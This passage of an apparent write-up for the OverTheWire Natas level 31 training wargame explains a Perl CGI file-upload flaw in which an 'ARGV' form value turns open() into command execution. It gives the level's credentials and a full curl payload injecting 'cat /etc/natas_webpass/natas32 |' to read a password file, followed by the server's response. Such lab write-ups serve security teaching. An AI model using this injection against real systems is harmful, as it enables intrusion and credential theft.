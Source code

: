   ```
  </div>
  </body>
  </html>
  END
  ```

- Now, base64 encode credentials `natas31:m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y` : `bmF0YXMzMTptN2JmakFIcEptU1lnUVdXZXFSRTJxVkJ1TWlSTnEweQ==`

- Here are the points:

**if ($cgi->upload(‘file’))**

*`upload()` checks of one of the `file` values is an uploaded files*

**my $file = $cgi->param(‘file’);**

*`param(`) returns a list of all the parameter values, but only the first value is inserted into $file. If a scalar value is assigned first, $file will be assigned the scalar value instead of the uploaded file descriptor.*

**while (<$file>) {**

*`<>` does not work with strings, unless the string is `ARGV`. In that case `<>` loops through the ARG values, inserting each one to an `open()` call.*

*`open()` opens a file descriptor to a given file path, unless a `|` character is added to the end of the string. In that case open will execute the file, acting as an `exec()` call.*

- Here's the payload:

  ```
  curl -H 'Authorization: Basic bmF0YXMzMTptN2JmakFIcEptU1lnUVdXZXFSRTJxVkJ1TWlSTnEweQ==' -H 'Content-Type: multipart/form-data; boundary=123abc' -d $'--123abc\r\nContent-Disposition: form-data; name="file";\r\nContent-Type: text/plain\r\n\r\nARGV\r\n--123abc\r\nContent-Disposition: form-data; name="file"; filename="ttt.csv"\r\nContent-Type: application/octet-stream\r\n\r\n1,2,3\r\n\r\n\r\n--123abc\r\nContent-Disposition: form-data; name="submit"\r\n\r\nUpload\r\n---123abc--\r\n'  http://natas31.natas.labs.overthewire.org/index.pl?cat%20/etc/natas_webpass/natas32%20%7C
  ```

- Output:

  ```
  $ curl -H 'Authorization: Basic bmF0YXMzMTptN2JmakFIcEptU1lnUVdXZXFSRTJxVkJ1TWlSTnEweQ==' -H 'Content-Type: multipart/form-data; boundary=123abc' -d $'--123abc\r\nContent-Disposition: form-data; name="file";\r\nContent-Type: text/plai
  n\r\n\r\nARGV\r\n--123abc\r\nContent-Disposition: form-data; name="file"; filename="ttt.csv"\r\nContent-Type: application/octet-stream\r\n\r\n1,2,3\r\n\r\n\r\n--123abc\r\nContent-Disposition: form-data; name="submit"\r\n\r\nUpload\r\n--
  -123abc--\r\n'  http://natas31.natas.labs.overthewire.org/index.pl?cat%20/etc/natas_webpass/natas32%20%7C
  
  <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  <!-- Bootstrap -->
  <link href="bootstrap-3.3.6-dist/css/bootstrap.min.css" rel="stylesheet">
  <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
  <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
  <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
  <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
  <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
  <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
  <script>var wechallinfo = { "level": "natas31", "pass": "<censored>" };</script>
  <script src="sorttable.js"></script>
  </head>
  <script src="bootstrap-3.3.6-dist/js/bootstrap.min.js"></script>
  <!-- morla/10111 -->
  ```